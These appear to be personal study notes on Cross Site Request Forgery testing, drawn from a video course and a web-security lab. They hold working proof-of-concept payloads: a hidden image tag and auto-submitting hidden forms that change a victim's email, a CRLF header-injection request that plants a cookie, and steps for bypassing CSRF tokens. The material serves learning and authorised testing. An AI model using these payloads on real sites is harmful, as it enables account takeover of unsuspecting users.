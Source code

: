 **Cross Site Request Forgery (CSRF)**

- CSRF is an attack where the attacker causes the victim user to carry out an immediate action unintentionally while that user is authenticated.

![[IMG/Pasted image 20240923045053.png]]

**Map the Application**
- Review all the key functionality in the application.

**Identify all the application functions that satisfy the following three conditions:**
- A relevant action
	- Changing an email or other important actions. On bug bounty using a logout function, for example, wouldn't count, because all it would do is log-out the user.
- Cookie based session handling.
- No unpredictable request parameters.

**Create a PoC script to exploit CSRF:** 
- GET request: `<img>` tag with `src` attribute set to vulnerable URL.
- POST request: form with hidden fields for all the required parameters and the target set to vulnerable URL.

**GET**
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<img src="https://bank.com/email/change?email=attacker@mail.com" width="0" height="0" border="0">
	<body>
</html>
```

**POST**
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display:none" name="csrf-iframe"></iframe>
		<form action="https://bank.com/email/change/" method="post" target="csrf-iframe" id="csrf-form">
			<input type="hidden" name="email" value="test@test.com">
		</form>
		<script>
		document.getElementById("csrf-form").submit()
		</script>
	</body>
</html>
```

![[IMG/Pasted image 20240923052113.png]]

![[IMG/Pasted image 20240923052156.png]]

Testing CSRF Tokens:
- Remove the CSRF token and see if the application accepts requests
- Change the request from POST to GET
- Check if GET requires a CSRF token
- See if CSRF token is tied to the user session

Testing CSRF Tokens and CSRF Cookies:
- Check if the CSRF token is tied to the cookie
	- Submit an invalid request
	- Submit a valid CSRF token from a different user
	- Submit valid CSRF and cookie from a different user
-  In order to exploit this vulnerability we need to perform two things
	- Inject a CSRFKey cookie in the users's session (HTTP Header Injection)
	- Send a CSRF attack to the victim with a known CSRF token

```php
GET /?search=hat%0d%0aSet-Cookie:%20csrfKey=<Attacker_CSRFKey_Cookie>
```
- new line url encoded `%0d%0a`
- space `%20`

Adding Metadata:

```html
<html>
    <head>
        <meta name="referrer" content="never"> 
    </head>
    <body>
        <h1>Hello world!</h1>
        <form action="https://0ab5007803da07dc80ad356300f6002f.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="test6@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```


---

_Credit to: Rana Khalil_
https://www.youtube.com/watch?v=7bTNMSqCMI0&list=PLuyTk2_mYISKNFqao_NBzYOWvJFqhVmXN


